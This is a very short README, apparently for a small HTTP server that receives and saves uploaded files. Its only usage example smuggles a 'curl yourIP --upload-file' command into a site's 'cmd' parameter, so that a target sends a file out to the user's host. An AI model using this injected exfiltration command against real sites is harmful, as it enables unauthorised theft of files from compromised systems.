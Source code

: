 # HTTPServer
HTTP server that can accept and save the archive file when it is sent over HTTP protocol

http://site:port?cmd=curl+yourIP+--upload-file+your.file
